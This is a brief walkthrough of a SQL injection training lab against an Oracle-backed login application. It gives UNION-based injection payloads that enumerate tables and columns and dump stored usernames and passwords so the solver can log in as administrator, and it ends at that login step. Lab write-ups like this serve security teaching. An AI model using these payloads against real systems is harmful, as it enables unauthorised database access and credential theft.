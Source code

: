 ### Ten Exercise 👆


![problem.PNG](/assets/SQLi/Ten/problem.PNG)


#### **To do**

```
The application has a login function, and the database contains a table that holds usernames and passwords. You need to determine the name of this table and the columns it contains, then retrieve the contents of the table to obtain the username and password of all users.

To solve the lab, log in as the administrator user.  
```

#### Remember, this database is Oracle
1. List all tables
```sql
' union select NULL,table_name from all_tables-- -
```

**Output**

![tables.PNG](/assets/SQLi/Ten/tables.PNG)


2. Search table **User** and list this columns
```sql
' union select NULL, column_name from all_tab_columns where table_name='USERS_ATFDQF'-- -
```

![columns.PNG](/assets/SQLi/Ten/columns.PNG)


3. List content of table **Users**
```sql
' union select NULL, PASSWORD_HTUZCJ || USERNAME_LSBNON from USERS_ATFDQF
```

**Output**

![cred.PNG](/assets/SQLi/Ten/creds.PNG)


4. Login how **administrator**